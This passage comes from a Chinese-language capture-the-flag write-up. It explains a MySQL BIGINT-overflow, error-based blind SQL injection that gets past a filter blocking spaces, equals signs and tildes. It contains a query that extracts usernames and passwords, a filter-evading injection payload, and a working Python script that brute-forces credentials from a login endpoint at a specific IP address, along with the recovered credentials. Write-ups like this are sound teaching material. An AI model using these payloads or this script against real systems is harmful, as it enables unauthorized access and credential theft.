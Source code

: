 3. 检索数据：

   ```mysql
   select !(select*from(select concat_ws(':',id, username, password) from users limit 0,1)x)-~0;
   ```

大致介绍到这里，更多详细可以去看参考文章

#### 参考文章

[MySQL 的 BIGINT 报错注入](https://www.tr0y.wang/2018/06/18/MySQL%E7%9A%84BIGINT%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/#x04-%E4%B8%80%E6%AC%A1%E6%80%A7%E8%BD%AC%E5%82%A8)

[CISCN2022 Ezpentest Writeup](https://erroratao.github.io/2022/05/30/CISCN2022_Ezpentest/)

#### 回到题目

在本题的waf下构造出来的payload就是

```mysql
0'case'1'when`username`collate'utf8mb4_bin'atelike'{}%'then+9223372036854775807+1+''else'0'||'
```

**1**.因为过滤了空格和其他空白字符，有因为case和then之间必须有空格，所以使用’1’。而且分号内的字符必须为数字且不为0，这样case when才能正常发挥作用

**2.**`cllate'utf8mb4_bin'`是使用utf8mb4_bin字符集，这样才区分大小写，sql默认不区分大小写

**3.**为过滤了rlike和=，所以使用like来进行匹配，{}是占位符，后面脚本里用的

**4.**`then+9223372036854775807+1+''`因为过滤了空格，所以前后两个+是用来连接sql语句的，中间的9223372036854775807+1就是表达式，如果匹配的到的内容符号like里的，就执行并返回这个表达式，从而造成溢出，然后就会报错，浏览器会返回500。就依据这个的不同来进行盲注
也可以使用18446744073709551615+1,18446744073709551615就是~0，但因为~被过滤所以无法使用~0+1

exp

```py
import string

import requests

str=string.ascii_letters+string.digits+"$@!^&}{_%"
payload="0'||case'1'when`username`collate'utf8mb4_bin'like'{}%'then+9223372036854775807+1+''else'0'end||'"
payload1="0'||case'1'when`password`collate'utf8mb4_bin'like'{}%'then+9223372036854775807+1+''else'0'end||'"
url='http://1.14.71.254:28448/login.php'
f=""
while 1:
    for i in str:
        if(i in '%_'): #对%和_进行转义，否则在like里面就是通配符了，%为任意个字符通配符，_为单个字符通配符
            i="\\"+i
        #print(i)
        #resp=requests.post(url=url,data={"username":payload.format(f+i),
                                     #"password":"0"})
        #username = nssctfwabbybaboo!@$%!!
        resp=requests.post(url=url,data={"username":"nssctfwabbybaboo!@$\%!!",
                                     "password":payload1.format(f+i)})
        #password = PAssw40d_Y0u3_Never_Konwn!@!!
        if(resp.status_code==500):
            f+=i
            print(f)
            break

```
